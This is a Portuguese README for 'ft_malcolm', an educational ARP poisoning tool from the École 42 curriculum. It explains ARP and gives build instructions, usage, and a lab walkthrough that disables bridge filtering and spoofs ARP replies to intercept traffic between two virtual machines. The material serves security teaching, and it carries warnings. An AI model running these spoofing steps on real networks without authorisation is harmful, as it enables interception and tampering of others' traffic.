

# 42 Malcolm


[](https://github.com/vinicius507/ft_malcolm/actions/workflows/tests.yml)

[](./README.md)
[](./README.pt-br.md)

Uma ferramenta de ARP Poisoning escrita em C usando o padrão 99.

> [!WARNING]
>
> Esta aplicação realiza ARP spoofing, uma técnica de ataque que pode
> interromper a comunicação em uma rede. Utilizar ARP spoofing sem permissão é
> uma violação de políticas de segurança e pode ser ilegal. É crucial usar esta
> ferramenta apenas em ambientes controlados, como uma rede de laboratório
> pessoal, para fins educativos ou de teste.
>
> Esta ferramenta foi criada como parte do currículo de Segurança da École 42 e
> destina-se apenas a fins educativos. O autor não apoia nem encoraja o uso
> desta ferramenta para fins maliciosos.

## O que é ARP?

O Address Resolution Protocol é um protocolo da Camada 2 que mapeia endereços
de hardware, como um endereço MAC, para um endereço de protocolo da Camada 3,
como um endereço IPv4.

## Como funciona o ARP poisoning?

O protocolo ARP é um protocolo _stateless_, o que significa que os hosts da
rede armazenarão em cache automaticamente qualquer resposta ARP que receberem,
independentemente de ter sido solicitada ou não.

O ARP poisoning funciona enviando respostas ARP não solicitadas a um host,
associando um endereço de protocolo ao endereço de hardware do atacante.

## Uso

### Compilando a partir do código-fonte

**Requisitos:**

- Clang 12
- GNU Make
- [Minha biblioteca Libft](https://github.com/vinicius507/libft)

**Instruções:**

1. Clone o repositório do 42 Malcolm:

   ```bash
   git clone https://github.com/vinicius507/ft_malcolm.git

   ```

2. Clone o repositório da Libft:

   ```bash
   git clone https://github.com/vinicius507/libft.git
   ```

3. Navegue até o diretório do projeto:

   ```bash
   cd ft_malcolm
   ```

4. Compile a ferramenta:

   ```bash
   make LIBFT_DIR=../libft/libft -C ./ft_malcolm # Ajuste o caminho, se necessário
   ```

### Compilando com Nix

Se preferir usar Nix, você pode compilar a aplicação navegando até o diretório
do projeto e usando o seguinte comando:

```bash
nix build .#
```

Isso assume que você tem um ambiente Nix válido configurado. O processo de
compilação lidará automaticamente com o download e _linkagem_ das dependências.

### Executando a Aplicação

**Antes de executar:**

- Certifique-se de ter **permissão explícita** para executar esta ferramenta na
  rede alvo.
- Esteja ciente do impacto potencial do ARP poisoning na rede.

**Executando a ferramenta:**

> [!NOTE]
>
> É necessário ter privilégios de root para executar a aplicação.

```bash
./ft_malcolm [OPÇÃO...] IP_FONTE MAC_FONTE IP_ALVO MAC_ALVO
```

**Argumentos Posicionais:**

- `IP_FONTE`: O endereço IP a ser falsificado como fonte.
- `MAC_FONTE`: O endereço MAC a ser falsificado como fonte.
- `IP_ALVO`: O endereço IP do dispositivo alvo.
- `MAC_ALVO`: O endereço MAC do dispositivo alvo.

**Argumentos Opcionais:**

- `-g, --gratuitous`: Enviar um pacote ARP gratuito para broadcast
  (`FF:FF:FF:FF:FF:FF`).
- `-i, --interface`: A interface de rede a ser usada, se não especificada, a
  primeira interface disponível será utilizada.
- `-v, --verbose`: Ativar saída detalhada para informações do pacote.

**Exemplo:**

```bash
./ft_malcolm 192.168.122.67 AA:BB:CC:DD:EE:FF 192.168.122.206 00:11:22:33:44:55
```

## Ambiente de Testes

A aplicação foi testada em um ambiente virtualizado usando QEMU/KVM com a
seguinte configuração:

- **Sistema Operacional do Host (Atacante):** NixOS 24.11
- **Sistema Operacional do Guest 1:** Debian 12
- **Sistema Operacional do Guest 2:** Debian 12
- **Rede:** Rede em modo bridge com DHCP

Para que o ARP poisoning funcione, a rede em modo bridge deve ser configurada
para não filtrar pacotes usando o firewall do sistema host. Isso pode ser feito
executando os seguintes comandos como root no host:

```bash
ip link set dev BRIDGE type bridge nf_call_arptables 0
ip link set dev BRIDGE type bridge nf_call_iptables 0
```

Onde `BRIDGE` é o nome da interface de rede em modo bridge.

Se você quiser encaminhar pacotes do host entre os guests e a rede, pode
habilitar o encaminhamento de IPs executando:

```bash
sysctl -w net.ipv4.ip_forward=1
```

Para realizar o ataque, você pode executar a aplicação no host, falsificando o
endereço IP e MAC do guest como a fonte e o endereço IP e MAC do roteador como
o alvo.

Primeiro, envie um pacote ARP gratuito para interceptar todo o tráfego indo para
`GUEST_1`:

```bash
./ft_malcolm GUEST_1_IP ATTACKER_MAC --interface=BRIDGE --gratuitous
```

Depois, ouça os pacotes ARP de `GUEST_1` solicitando o endereço MAC de
`GUEST_2`:

```bash
./ft_malcolm GUEST_2_IP ATTACKER_MAC GUEST_1_IP GUEST_1_MAC --interface=BRIDGE
```

Verificar o cache ARP em `GUEST_1` deve mostrar o endereço MAC de `GUEST_2`
como o endereço MAC do atacante.

```bash
$ cat /proc/net/arp
Endereço IP      Tipo HW     Flags       Endereço HW          Máscara  Dispositivo
ATTACKER_IP      0x1         0x2         ATTACKER_MAC         *        BRIDGE
GUEST_2_IP       0x1         0x2         ATTACKER_MAC         *        BRIDGE
```

Isso irá interceptar todo o tráfego de `GUEST_1` para `GUEST_2`, permitindo que
você inspecione e modifique os pacotes conforme necessário.

|  |
| :-------------------------------------------------------------------------------------: |
|                    _Wireshark mostrando um reply HTTP interceptado_                     |
